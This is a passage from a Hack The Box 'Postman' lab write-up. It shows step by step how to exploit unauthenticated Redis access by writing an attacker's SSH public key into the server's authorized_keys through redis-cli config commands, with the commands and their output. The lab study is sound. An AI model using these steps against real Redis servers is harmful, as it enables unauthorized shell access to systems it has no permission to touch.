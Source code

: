 

## Exploitation and Gaining Access


##### Exploiting an unauthenticated RCE vulnerability in Redis:

As explained on [Victor Zhu's post in Medium](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419) we can attempt to exploit a vulnerability in Redis were you can push a SSH Public Key (authorized_key) as the Redis configuration. In some instances Redis could be running as the root user, but in other, just like some services (Apache for example) it could be running with its own service account, typically redis would be the username.

If I remember correctly, this flaw is something that could be configured to prevent it from happening, and along with this, you always have to make sure any service you configure does NOT allow anonymous authentication like FTP allows if not configured properly.

To interact with Redis, we need to install or have available redis-cli. Let's first create a SSH public/private key pairs for the redis user under postman.htb host.

```
root@kali:~/Documents/HTB-Labs/Postman# ssh-keygen -t rsa -b 4096 -C "redis@postman.htb"
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa.
Your public key has been saved in ./id_rsa.pub.
The key fingerprint is:
SHA256:JzR/c/6ghZ32fkfbdeYNPrmLTJ/MAMSux+ODyP8PFsQ redis@postman.htb
The key's randomart image is:
+---[RSA 4096]----+
|                 |
|         o       |
|        o E      |
|       . *       |
|        S * o .  |
|         = + *..=|
|     . ...* +.B**|
|      o .+.= X+**|
|       ...oo= B=*|
+----[SHA256]-----+

root@kali:~/Documents/HTB-Labs/Postman# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Now that we had created the SSH key pair and saved the Public Key to temp.txt, let's try to interact with Redis and upload temp.txt as a configuration file of Redis. Something to mention is that at this point we already attempted to access Redis anonymously and complete successful.
```
root@kali:~/Documents/HTB-Labs/Postman# cat temp.txt | redis-cli -h postman.htb -x set s-key
OK
root@kali:~/Documents/HTB-Labs/Postman# redis-cli -h postman.htb
postman.htb:6379> config get dir
1) "dir"
2) "/var/lib/redis"
postman.htb:6379> config set dir /var/lib/redis/.ssh
OK
postman.htb:6379> config set dbfilename authorized_keys
OK
postman.htb:6379> save
OK
postman.htb:6379> quit
```

